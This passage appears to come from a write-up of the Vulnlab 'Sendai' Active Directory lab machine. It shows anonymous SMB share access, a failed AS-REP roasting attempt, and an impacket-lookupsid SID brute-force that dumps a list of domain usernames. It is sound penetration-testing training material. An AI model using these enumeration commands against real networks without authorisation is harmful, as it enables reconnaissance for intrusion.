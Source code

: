 ```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]                          └─$ smbclient -N \\\\sendai.vl\\sendai
```

We downloaded all the accessible files to Falcon for further enumeration.

<img src="attachments/f11f605f81d6ce988b26d6cc96440377.png" />

Started enumerating the files.

<img src="attachments/f12fd4607110ef5ecd1fe9292bc0dab0.png" />

Tried to perform an ASREP roasting attack but failed.

<img src="attachments/f635178d75820d97ecf64186716cb894.png" />

We launched a SID brute-force attack using Lookupsid and successfully dumped the users of the domain.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]
└─$ impacket-lookupsid anonymous@sendai.vl -no-pass | awk -F'\\\\| ' '/SidTypeUser/ {print $3}'
Administrator
Guest
krbtgt
DC$
sqlsvc
websvc
Dorothy.Jones
Kerry.Robinson
Naomi.Gardner
Anthony.Smith
Susan.Harper
Stephen.Simpson
Marie.Gallagher
Kathleen.Kelly
Norman.Baxter
Jason.Brady
Elliot.Yates
Malcolm.Smith
Lisa.Williams
Ross.Sullivan
```